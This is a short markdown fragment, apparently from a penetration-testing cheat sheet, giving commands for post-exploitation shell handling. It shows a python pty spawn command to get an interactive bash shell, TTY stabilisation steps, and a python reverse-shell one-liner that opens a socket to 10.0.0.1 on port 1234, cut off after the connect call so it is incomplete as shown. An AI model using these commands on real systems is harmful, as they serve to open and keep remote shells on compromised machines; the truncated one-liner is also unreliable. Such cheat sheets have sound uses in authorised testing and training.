#### Interactive Shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

#### Follow it up by stabilizing the shell
```
ctrl + z
stty raw -echo && fg 
export TERM=xterm
```

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234))
```